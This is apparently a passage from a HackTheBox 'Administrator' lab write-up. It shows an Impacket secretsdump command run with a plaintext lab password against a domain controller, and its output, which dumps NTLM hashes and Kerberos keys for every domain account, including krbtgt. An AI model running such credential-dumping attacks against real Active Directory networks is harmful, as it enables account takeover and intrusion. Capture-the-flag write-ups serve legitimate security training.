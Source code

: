 ![alt text](<../assets/images/Screenshot 2025-03-15 at 00-42-56 BloodHound.png>)

```bash
➜  administrator python3 /opt/impacket/examples/secretsdump.py "administrator.htb/ethan:limpbizkit"@"dc.administrator.htb"
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:3dc553ce4b9fd20bd016e098d2d2fd2e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:1181ba47d45fa2c76385a82409cbfaf6:::
administrator.htb\olivia:1108:aad3b435b51404eeaad3b435b51404ee:fbaa3e2294376dc0f5aeb6b41ffa52b7:::
administrator.htb\michael:1109:aad3b435b51404eeaad3b435b51404ee:20688f5fcfa2354f667523a73a3d1951:::
administrator.htb\benjamin:1110:aad3b435b51404eeaad3b435b51404ee:20688f5fcfa2354f667523a73a3d1951:::
administrator.htb\emily:1112:aad3b435b51404eeaad3b435b51404ee:eb200a2583a88ace2983ee5caa520f31:::
administrator.htb\ethan:1113:aad3b435b51404eeaad3b435b51404ee:5c2b9f97e0620c3d307de85a93179884:::
administrator.htb\alexander:3601:aad3b435b51404eeaad3b435b51404ee:cdc9e5f3b0631aa3600e0bfec00a0199:::
administrator.htb\emma:3602:aad3b435b51404eeaad3b435b51404ee:11ecd72c969a57c34c819b41b54455c9:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:cf411ddad4807b5b4a275d31caa1d4b3:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:9d453509ca9b7bec02ea8c2161d2d340fd94bf30cc7e52cb94853a04e9e69664
Administrator:aes128-cts-hmac-sha1-96:08b0633a8dd5f1d6cbea29014caea5a2
Administrator:des-cbc-md5:403286f7cdf18385
krbtgt:aes256-cts-hmac-sha1-96:920ce354811a517c703a217ddca0175411d4a3c0880c359b2fdc1a494fb13648
krbtgt:aes128-cts-hmac-sha1-96:aadb89e07c87bcaf9c540940fab4af94
krbtgt:des-cbc-md5:2c0bc7d0250dbfc7
administrator.htb\olivia:aes256-cts-hmac-sha1-96:713f215fa5cc408ee5ba000e178f9d8ac220d68d294b077cb03aecc5f4c4e4f3
administrator.htb\olivia:aes128-cts-hmac-sha1-96:3d15ec169119d785a0ca2997f5d2aa48
administrator.htb\olivia:des-cbc-md5:bc2a4a7929c198e9
administrator.htb\michael:aes256-cts-hmac-sha1-96:fe55cce327946e7cd06731b30543ced8d2fdca1a31295e76944bb778b29f94ca
administrator.htb\michael:aes128-cts-hmac-sha1-96:2b3db3d7eb33df18b70dd91ca55c8a27
administrator.htb\michael:des-cbc-md5:51bfeaa12c1c9df4
administrator.htb\benjamin:aes256-cts-hmac-sha1-96:df33c40f0effaca2690e6fccf496d2ff9571d4eba95e13e860c61ccbe3cdd775
administrator.htb\benjamin:aes128-cts-hmac-sha1-96:b5f81b94e4dab96b43083628add6f480
administrator.htb\benjamin:des-cbc-md5:7c0e4998f4ece30b
```